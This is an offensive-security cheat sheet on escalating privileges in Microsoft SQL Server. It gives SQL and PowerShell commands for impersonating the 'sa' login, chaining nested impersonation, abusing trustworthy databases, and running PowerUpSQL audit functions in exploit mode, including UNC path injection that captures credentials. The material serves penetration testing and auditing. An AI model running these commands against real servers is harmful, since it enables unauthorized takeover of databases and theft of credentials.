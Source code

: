 # MSSQL - Audit Checks

## Summary

* [Impersonation Opportunities](#impersonation-opportunities)
    * [Exploiting Impersonation](#exploiting-impersonation)
    * [Exploiting Nested Impersonation](#exploiting-nested-impersonation)
* [Trustworthy Databases](#trustworthy-databases)

## Impersonation Opportunities

* Impersonate as: `EXECUTE AS LOGIN = 'sa'`
* Impersonate `dbo` with DB_OWNER

 ```sql
 SQL> select is_member('db_owner');
 SQL> execute as user = 'dbo'
 SQL> SELECT is_srvrolemember('sysadmin')
 ```

```ps1
Invoke-SQLAuditPrivImpersonateLogin -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose

# impersonate sa account
powerpick Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER(''sysadmin'')" -Verbose -Debug
```

### Exploiting Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'adminuser'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
```

### Exploiting Nested Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'stduser'
SELECT SYSTEM_USER
EXECUTE AS LOGIN = 'sa'
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
SELECT SYSTEM_USER
```

## Trustworthy Databases

```sql
Invoke-SQLAuditPrivTrustworthy -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose 

SELECT name as database_name, SUSER_NAME(owner_sid) AS database_owner, is_trustworthy_on AS TRUSTWORTHY from sys.databases
```

> The following audit checks run web requests to load Inveigh via reflection. Be mindful of the environment and ability to connect outbound.

```ps1
Invoke-SQLAuditPrivXpDirtree
Invoke-SQLUncPathInjection
Invoke-SQLAuditPrivXpFileexist
```